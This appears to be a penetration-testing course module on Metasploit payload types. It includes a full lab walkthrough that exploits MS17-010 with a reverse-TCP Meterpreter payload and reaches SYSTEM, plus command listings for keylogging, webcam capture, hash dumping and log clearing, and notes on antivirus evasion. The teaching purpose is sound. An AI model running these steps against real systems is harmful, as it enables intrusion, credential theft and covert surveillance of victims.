There are three different types of payload modules in the Metasploit Framework: Singles, Stagers, and Stages. Using three typologies of payload interaction will prove beneficial to the pentester. It can offer the flexibility we need to perform certain types of tasks. Whether or not a payload is staged is represented by `/` in the payload name.

For example, `windows/shell_bind_tcp` is a single payload with no stage, whereas `windows/shell/bind_tcp` consists of a stager (`bind_tcp`) and a stage (`shell`).

**Singles**

A `Single` payload contains the exploit and the entire shellcode for the selected task. Inline payloads are by design more stable than their counterparts because they contain everything all-in-one. However, some exploits will not support the resulting size of these payloads as they can get quite large. `Singles` are self-contained payloads. They are the sole object sent and executed on the target system, getting us a result immediately after running. A Single payload can be as simple as adding a user to the target system or booting up a process.

**Stagers**

`Stager` payloads work with Stage payloads to perform a specific task. A Stager is waiting on the attacker machine, ready to establish a connection to the victim host once the stage completes its run on the remote host. `Stagers` are typically used to set up a network connection between the attacker and victim and are designed to be small and reliable. Metasploit will use the best one and fall back to a less-preferred one when necessary.

Windows NX vs. NO-NX Stagers

* Reliability issue for NX CPUs and DEP
* NX stagers are bigger (VirtualAlloc memory)
* Default is now NX + Win7 compatible

**Stages**

`Stages` are payload components that are downloaded by stager's modules. The various payload Stages provide advanced features with no size limits, such as Meterpreter, VNC Injection, and others. Payload stages automatically use middle stagers:

* A single `recv()` fails with large payloads
* The Stager receives the middle stager
* The middle Stager then performs a full download
* Also better for RWX

***

### Staged Payloads

A staged payload is, simply put, an `exploitation process` that is modularized and functionally separated to help segregate the different functions it accomplishes into different code blocks, each completing its objective individually but working on chaining the attack together. This will ultimately grant an attacker remote access to the target machine if all the stages work correctly.

The scope of this payload, as with any others, besides granting shell access to the target system, is to be as compact and inconspicuous as possible to aid with the Antivirus (`AV`) / Intrusion Prevention System (`IPS`) evasion as much as possible.

`Stage0` of a staged payload represents the initial shellcode sent over the network to the target machine's vulnerable service, which has the sole purpose of initializing a connection back to the attacker machine. This is what is known as a reverse connection. As a Metasploit user, we will meet these under the common names `reverse_tcp`, `reverse_https`, and `bind_tcp`. For example, under the `show payloads` command, you can look for the payloads that look like the following:

**MSF - Staged Payloads**

Payloads

```shell-session
msf6 > show payloads

<SNIP>

535  windows/x64/meterpreter/bind_ipv6_tcp                                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
536  windows/x64/meterpreter/bind_ipv6_tcp_uuid                           normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
537  windows/x64/meterpreter/bind_named_pipe                              normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
538  windows/x64/meterpreter/bind_tcp                                     normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
539  windows/x64/meterpreter/bind_tcp_rc4                                 normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
540  windows/x64/meterpreter/bind_tcp_uuid                                normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager with UUID Support (Windows x64)
541  windows/x64/meterpreter/reverse_http                                 normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
542  windows/x64/meterpreter/reverse_https                                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
543  windows/x64/meterpreter/reverse_named_pipe                           normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
544  windows/x64/meterpreter/reverse_tcp                                  normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
545  windows/x64/meterpreter/reverse_tcp_rc4                              normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
546  windows/x64/meterpreter/reverse_tcp_uuid                             normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
547  windows/x64/meterpreter/reverse_winhttp                              normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
548  windows/x64/meterpreter/reverse_winhttps                             normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)

<SNIP>
```

Reverse connections are less likely to trigger prevention systems like the one initializing the connection is the victim host, which most of the time resides in what is known as a `security trust zone`. However, of course, this trust policy is not blindly followed by the security devices and personnel of a network, so the attacker must tread carefully even with this step.

Stage0 code also aims to read a larger, subsequent payload into memory once it arrives. After the stable communication channel is established between the attacker and the victim, the attacker machine will most likely send an even bigger payload stage which should grant them shell access. This larger payload would be the `Stage1` payload. We will go into more detail in the later sections.

**Meterpreter Payload**

The `Meterpreter` payload is a specific type of multi-faceted payload that uses `DLL injection` to ensure the connection to the victim host is stable, hard to detect by simple checks, and persistent across reboots or system changes. Meterpreter resides completely in the memory of the remote host and leaves no traces on the hard drive, making it very difficult to detect with conventional forensic techniques. In addition, scripts and plugins can be `loaded and unloaded` dynamically as required.

Once the Meterpreter payload is executed, a new session is created, which spawns up the Meterpreter interface. It is very similar to the msfconsole interface, but all available commands are aimed at the target system, which the payload has "infected." It offers us a plethora of useful commands, varying from keystroke capture, password hash collection, microphone tapping, and screenshotting to impersonating process security tokens. We will delve into more detail about Meterpreter in a later section.

Using Meterpreter, we can also `load` in different Plugins to assist us with our assessment. We will talk more about these in the Plugins section of this module.

***

### Searching for Payloads

To select our first payload, we need to know what we want to do on the target machine. For example, if we are going for access persistence, we will probably want to select a Meterpreter payload.

As mentioned above, Meterpreter payloads offer us a significant amount of flexibility. Their base functionality is already vast and influential. We can automate and quickly deliver combined with plugins such as [GentilKiwi's Mimikatz Plugin](https://github.com/gentilkiwi/mimikatz) parts of the pentest while keeping an organized, time-effective assessment. To see all of the available payloads, use the `show payloads` command in `msfconsole`.

**MSF - List Payloads**

Payloads

```shell-session
msf6 > show payloads

Payloads
========

   #    Name                                                Disclosure Date  Rank    Check  Description
-    ----                                                ---------------  ----    -----  -----------
   0    aix/ppc/shell_bind_tcp                                               manual  No     AIX Command Shell, Bind TCP Inline
   1    aix/ppc/shell_find_port                                              manual  No     AIX Command Shell, Find Port Inline
   2    aix/ppc/shell_interact                                               manual  No     AIX execve Shell for inetd
   3    aix/ppc/shell_reverse_tcp                                            manual  No     AIX Command Shell, Reverse TCP Inline
   4    android/meterpreter/reverse_http                                     manual  No     Android Meterpreter, Android Reverse HTTP Stager
   5    android/meterpreter/reverse_https                                    manual  No     Android Meterpreter, Android Reverse HTTPS Stager
   6    android/meterpreter/reverse_tcp                                      manual  No     Android Meterpreter, Android Reverse TCP Stager
   7    android/meterpreter_reverse_http                                     manual  No     Android Meterpreter Shell, Reverse HTTP Inline
   8    android/meterpreter_reverse_https                                    manual  No     Android Meterpreter Shell, Reverse HTTPS Inline
   9    android/meterpreter_reverse_tcp                                      manual  No     Android Meterpreter Shell, Reverse TCP Inline
   10   android/shell/reverse_http                                           manual  No     Command Shell, Android Reverse HTTP Stager
   11   android/shell/reverse_https                                          manual  No     Command Shell, Android Reverse HTTPS Stager
   12   android/shell/reverse_tcp                                            manual  No     Command Shell, Android Reverse TCP Stager
   13   apple_ios/aarch64/meterpreter_reverse_http                           manual  No     Apple_iOS Meterpreter, Reverse HTTP Inline
   
<SNIP>
   
   557  windows/x64/vncinject/reverse_tcp                                    manual  No     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse TCP Stager
   558  windows/x64/vncinject/reverse_tcp_rc4                                manual  No     Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   559  windows/x64/vncinject/reverse_tcp_uuid                               manual  No     Windows x64 VNC Server (Reflective Injection), Reverse TCP Stager with UUID Support (Windows x64)
   560  windows/x64/vncinject/reverse_winhttp                                manual  No     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTP Stager (winhttp)
   561  windows/x64/vncinject/reverse_winhttps                               manual  No     Windows x64 VNC Server (Reflective Injection), Windows x64 Reverse HTTPS Stager (winhttp)
```

As seen above, there are a lot of available payloads to choose from. Not only that, but we can create our payloads using `msfvenom`, but we will dive into that a little bit later. We will use the same target as before, and instead of using the default payload, which is a simple `reverse_tcp_shell`, we will be using a `Meterpreter Payload for Windows 7(x64)`.

Scrolling through the list above, we find the section containing `Meterpreter Payloads for Windows(x64)`.

Payloads

```shell-session
   515  windows/x64/meterpreter/bind_ipv6_tcp                                manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   516  windows/x64/meterpreter/bind_ipv6_tcp_uuid                           manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
   517  windows/x64/meterpreter/bind_named_pipe                              manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
   518  windows/x64/meterpreter/bind_tcp                                     manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
   519  windows/x64/meterpreter/bind_tcp_rc4                                 manual  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
   520  windows/x64/meterpreter/bind_tcp_uuid                                manual  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager with UUID Support (Windows x64)
   521  windows/x64/meterpreter/reverse_http                                 manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   522  windows/x64/meterpreter/reverse_https                                manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   523  windows/x64/meterpreter/reverse_named_pipe                           manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
   524  windows/x64/meterpreter/reverse_tcp                                  manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   525  windows/x64/meterpreter/reverse_tcp_rc4                              manual  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   526  windows/x64/meterpreter/reverse_tcp_uuid                             manual  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   527  windows/x64/meterpreter/reverse_winhttp                              manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
   528  windows/x64/meterpreter/reverse_winhttps                             manual  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)
   529  windows/x64/meterpreter_bind_named_pipe                              manual  No     Windows Meterpreter Shell, Bind Named Pipe Inline (x64)
   530  windows/x64/meterpreter_bind_tcp                                     manual  No     Windows Meterpreter Shell, Bind TCP Inline (x64)
   531  windows/x64/meterpreter_reverse_http                                 manual  No     Windows Meterpreter Shell, Reverse HTTP Inline (x64)
   532  windows/x64/meterpreter_reverse_https                                manual  No     Windows Meterpreter Shell, Reverse HTTPS Inline (x64)
   533  windows/x64/meterpreter_reverse_ipv6_tcp                             manual  No     Windows Meterpreter Shell, Reverse TCP Inline (IPv6) (x64)
   534  windows/x64/meterpreter_reverse_tcp                                  manual  No     Windows Meterpreter Shell, Reverse TCP Inline x64
```

As we can see, it can be pretty time-consuming to find the desired payload with such an extensive list. We can also use `grep` in `msfconsole` to filter out specific terms. This would speed up the search and, therefore, our selection.

We have to enter the `grep` command with the corresponding parameter at the beginning and then the command in which the filtering should happen. For example, let us assume that we want to have a `TCP` based `reverse shell` handled by `Meterpreter` for our exploit. Accordingly, we can first search for all results that contain the word `Meterpreter` in the payloads.

**MSF - Searching for Specific Payload**

Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads

   6   payload/windows/x64/meterpreter/bind_ipv6_tcp                        normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager
   7   payload/windows/x64/meterpreter/bind_ipv6_tcp_uuid                   normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 IPv6 Bind TCP Stager with UUID Support
   8   payload/windows/x64/meterpreter/bind_named_pipe                      normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind Named Pipe Stager
   9   payload/windows/x64/meterpreter/bind_tcp                             normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Bind TCP Stager
   10  payload/windows/x64/meterpreter/bind_tcp_rc4                         normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager (RC4 Stage Encryption, Metasm)
   11  payload/windows/x64/meterpreter/bind_tcp_uuid                        normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager with UUID Support (Windows x64)
   12  payload/windows/x64/meterpreter/reverse_http                         normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   13  payload/windows/x64/meterpreter/reverse_https                        normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   14  payload/windows/x64/meterpreter/reverse_named_pipe                   normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   18  payload/windows/x64/meterpreter/reverse_winhttp                      normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (winhttp)
   19  payload/windows/x64/meterpreter/reverse_winhttps                     normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTPS Stager (winhttp)


msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter show payloads

[*] 14
```

This gives us a total of `14` results. Now we can add another `grep` command after the first one and search for `reverse_tcp`.

Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)
   
   
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter grep reverse_tcp show payloads

[*] 3
```

With the help of `grep`, we reduced the list of payloads we wanted down to fewer. Of course, the `grep` command can be used for all other commands. All we need to know is what we are looking for.

***

### Selecting Payloads

Same as with the module, we need the index number of the entry we would like to use. To set the payload for the currently selected module, we use `set payload <no.>` only after selecting an Exploit module to begin with.

**MSF - Select Payload**

Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads

   15  payload/windows/x64/meterpreter/reverse_tcp                          normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse TCP Stager
   16  payload/windows/x64/meterpreter/reverse_tcp_rc4                      normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager (RC4 Stage Encryption, Metasm)
   17  payload/windows/x64/meterpreter/reverse_tcp_uuid                     normal  No     Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)


msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp
```

After selecting a payload, we will have more options available to us.

Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

As we can see, by running the `show payloads` command within the Exploit module itself, msfconsole has detected that the target is a Windows machine, and such only displayed the payloads aimed at Windows operating systems.

We can also see that a new option field has appeared, directly related to what the payload parameters will contain. We will be focusing on `LHOST` and `LPORT` (our attacker IP and the desired port for reverse connection initialization). Of course, if the attack fails, we can always use a different port and relaunch the attack.

***

### Using Payloads

Time to set our parameters for both the Exploit module and the payload module. For the Exploit part, we will need to set the following:

| **Parameter** | **Description**                                                                        |
| ------------- | -------------------------------------------------------------------------------------- |
| `RHOSTS`      | The IP address of the remote host, the target machine.                                 |
| `RPORT`       | Does not require a change, just a check that we are on port 445, where SMB is running. |

For the payload part, we will need to set the following:

| **Parameter** | **Description**                                                              |
| ------------- | ---------------------------------------------------------------------------- |
| `LHOST`       | The host's IP address, the attacker's machine.                               |
| `LPORT`       | Does not require a change, just a check that the port is not already in use. |

If we want to check our LHOST IP address quickly, we can always call the `ifconfig` command directly from the msfconsole menu.

**MSF - Exploit and Payload Configuration**

Payloads

```shell-session
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig

**[\*]** exec: ifconfig

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST> mtu 1500

<SNIP>

inet 10.10.14.15 netmask 255.255.254.0 destination 10.10.14.15

<SNIP>


msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.10.14.15

LHOST => 10.10.14.15


msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40
```

Then, we can run the exploit and see what it returns. Check out the differences in the output below:

Payloads

```shell-session
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.10.10.40:49158) at 2020-08-14 11:25:32 +0000
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


meterpreter > whoami

[-] Unknown command: whoami.


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

The prompt is not a Windows command-line one but a `Meterpreter` prompt. The `whoami` command, typically used for Windows, does not work here. Instead, we can use the Linux equivalent of `getuid`. Exploring the `help` menu gives us further insight into what Meterpreter payloads are capable of.

**MSF - Meterpreter Commands**

Payloads

```shell-session
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of Unicode strings
    enable_unicode_encoding   Enables encoding of Unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    IRB                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    pivot                     Manage pivot listeners
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session.
    transport                 Change the current transport mechanism
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Strap: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    cp            Copy source to destination
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    LCD           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    PWD           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    show_mount    List all mount points/logical drives
    upload        Upload a file or directory


Strap: Networking Commands
===========================

    Command       Description
    -------       -----------
    arp           Display the host ARP cache
    get proxy      Display the current proxy configuration
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    netstat       Display the network connections
    portfwd       Forward a local port to a remote service
    resolve       Resolve a set of hostnames on the target
    route         View and modify the routing table


Strap: System Commands
=======================

    Command       Description
    -------       -----------
    clearev       Clear the event log
    drop_token    Relinquishes any active impersonation token.
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getprivs      Attempt to enable all privileges available to the current process
    getsid        Get the SID of the user that the server is running as
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system's local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    reboot        Reboots the remote computer
    reg           Modify and interact with the remote registry
    rev2self      Calls RevertToSelf() on the remote machine
    shell         Drop into a system command shell
    shutdown      Shuts down the remote computer
    steal_token   Attempts to steal an impersonation token from the target process
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Strap: User interface Commands
===============================

    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idle time       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user's desktop in real-time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components


Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_chat    Start a video chat
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam


Strap: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system


Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    get system     Attempt to elevate your privilege to that of the local system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestamp Commands
========================

    Command       Description
    -------       -----------
    timestamp     Manipulate file MACE attributes
```

Pretty nifty. From extracting user hashes from SAM to taking screenshots and activating webcams. All of this is done from the comfort of a Linux-style command line. Exploring further, we also see the option to open a shell channel. This will place us in the actual Windows command-line interface.

**MSF - Meterpreter Navigation**

Payloads

```shell-session
meterpreter > cd Users
meterpreter > ls

Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2017-07-21 06:56:23 +0000  Administrator
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  All Users
40555/r-xr-xr-x   8192  dir   2009-07-14 03:20:08 +0000  Default
40777/rwxrwxrwx   0     dir   2009-07-14 05:08:56 +0000  Default User
40555/r-xr-xr-x   4096  dir   2009-07-14 03:20:08 +0000  Public
100666/rw-rw-rw-  174   fil   2009-07-14 04:54:24 +0000  desktop.ini
40777/rwxrwxrwx   8192  dir   2017-07-14 13:45:33 +0000  haris


meterpreter > shell

Process 2664 created.
Channel 1 created.

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>
```

`Channel 1` has been created, and we are automatically placed into the CLI for this machine. The channel here represents the connection between our device and the target host, which has been established in a reverse TCP connection (from the target host to us) using a Meterpreter Stager and Stage. The stager was activated on our machine to await a connection request initialized by the Stage payload on the target machine.

Moving into a standard shell on the target is helpful in some cases, but Meterpreter can also navigate and perform actions on the victim machine. So we see that the commands have changed, but we have the same privilege level within the system.

**MSF - Windows CMD**

Payloads

```shell-session
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Users>dir

dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users

21/07/2017  07:56    <DIR>          .
21/07/2017  07:56    <DIR>          ..
21/07/2017  07:56    <DIR>          Administrator
14/07/2017  14:45    <DIR>          haris
12/04/2011  08:51    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  15,738,978,304 bytes free

C:\Users>whoami

whoami
nt authority\system
```

Let's see what other types of payloads we can use. We will be looking at the most common ones related to Windows operating systems.

***

### Payload Types

The table below contains the most common payloads used for Windows machines and their respective descriptions.

| **Payload**                       | **Description**                                                        |
| --------------------------------- | ---------------------------------------------------------------------- |
| `generic/custom`                  | Generic listener, multi-use                                            |
| `generic/shell_bind_tcp`          | Generic listener, multi-use, normal shell, TCP connection binding      |
| `generic/shell_reverse_tcp`       | Generic listener, multi-use, normal shell, reverse TCP connection      |
| `windows/x64/exec`                | Executes an arbitrary command (Windows x64)                            |
| `windows/x64/loadlibrary`         | Loads an arbitrary x64 library path                                    |
| `windows/x64/messagebox`          | Spawns a dialog via MessageBox using a customizable title, text & icon |
| `windows/x64/shell_reverse_tcp`   | Normal shell, single payload, reverse TCP connection                   |
| `windows/x64/shell/reverse_tcp`   | Normal shell, stager + stage, reverse TCP connection                   |
| `windows/x64/shell/bind_ipv6_tcp` | Normal shell, stager + stage, IPv6 Bind TCP stager                     |
| `windows/x64/meterpreter/$`       | Meterpreter payload + varieties above                                  |
| `windows/x64/powershell/$`        | Interactive PowerShell sessions + varieties above                      |
| `windows/x64/vncinject/$`         | VNC Server (Reflective Injection) + varieties above                    |

Other critical payloads that are heavily used by penetration testers during security assessments are Empire and Cobalt Strike payloads. These are not in the scope of this course, but feel free to research them in our free time as they can provide a significant amount of insight into how professional penetration testers perform their assessments on high-value targets.

Besides these, of course, there are a plethora of other payloads out there. Some are for specific device vendors, such as Cisco, Apple, or PLCs. Some we can generate ourselves using `msfvenom`. However, next up, we will look at `Encoders` and how they can be used to influence the attack outcome.


## Encoders

***

Over the 15 years of existence of the Metasploit Framework, `Encoders` have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. `Encoders` come into play with the role of changing the payload to run on different operating systems and architectures. These architectures include:

| `x64` | `x86` | `sparc` | `ppc` | `mips` |
| ----- | ----- | ------- | ----- | ------ |

